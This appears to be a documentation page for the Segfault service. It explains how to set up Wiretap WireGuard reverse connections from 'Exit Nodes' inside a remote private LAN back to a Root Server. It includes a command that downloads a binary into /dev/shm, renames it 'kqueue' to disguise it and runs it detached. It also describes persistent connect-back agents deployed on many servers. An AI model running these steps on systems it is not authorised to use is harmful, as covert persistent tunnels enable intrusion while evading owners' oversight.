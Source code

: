 ```yaml
---
layout: default
title: Segfault / WireGuard Tricks
description: Segfault WireGuard Reverse Connection tricks.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href*="/tricks/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->

{% include nav-segfault-v3.html top="340px" left="20px" %}

<div style="text-align:center">
    <h1>WireGuard Reverse Connection</h1>
    <p>Hacks, Tips, Tricks and other shenanigans</p>
</div>

## Misc Tips

1. Use `curl sf/net/help` for some help
1. `-d name=all` works with all commands
1. `curl sf/net/show` may show that the interface is up but that no data has been transferred. It is likely that you have not started `wiretap` on the Exit Node yet or that Wiretap can not reach your Root Server.
1. It is only possible to have 1 Interface up at a time. (if you like us to add multi-interface support then please contact us.)

## Hide the Wiretap process

```shell
cd /dev/shm
curl -fsSL https://github.com/sandialabs/wiretap/releases/download/v0.2.1/wiretap_0.2.1_linux_amd64.tar.gz | tar xfz - -O >kqueue
PATH=.:$PATH
setsid kqueue server --private ...
```

## Deploy Wiretap first

It is possible to install [Wiretap](https://github.com/sandialabs/wiretap/releases/tag/v0.2.1) on many many servers and only activate the Interface on your [Root Server](../) if and when needed. The Root Server does not need to know about the Wiretap installations until you like to access the remote private LAN from your [Root Server](../).

A deployed Wiretap will connect back to your [Root Server](../) indefinitely and until it is uninstalled from the remote private LAN.

__Step #1: Allocate a UDP port on your Root Server__

```shell
curl http://rpc/net/init
```

Take note of the *port*. The UDP Port is now associated with your [Root Server](../). Ignore the rest.

__Step #2: Generate Keys on the Exit Node__

The Exit Node is any Linux, Windows or OSX system inside the remote private LAN.

```shell
wiretap configure -e XX.segfault.net:<port> # Replace 'XX' with the segfault region you are using
```

{:refdef: style="text-align: center;"}
![login screen](wt-nosf2.png){:height="80%" width="80%"}
{: refdef}

Take note of the *PrivateKey* and *PublicKey*.

Start Wiretap as described in the output (green):

```shell
wiretap serve --private <...> --public <...> --endpoint XX.segfault.net:<port>
```

Repeat this step on as many Exit Nodes as you like and keep note of every new PrivateKey/PublicKey for each Exit Node.

__Step #3: Access the Network__

On your [Root Server](../):

```
curl http://rpc/net/up -d name=PrivLAN31337 -d private=<PrivateKey> -d exit_public=<PublicKey>
```

## Contact

{% include contact-details.md %}
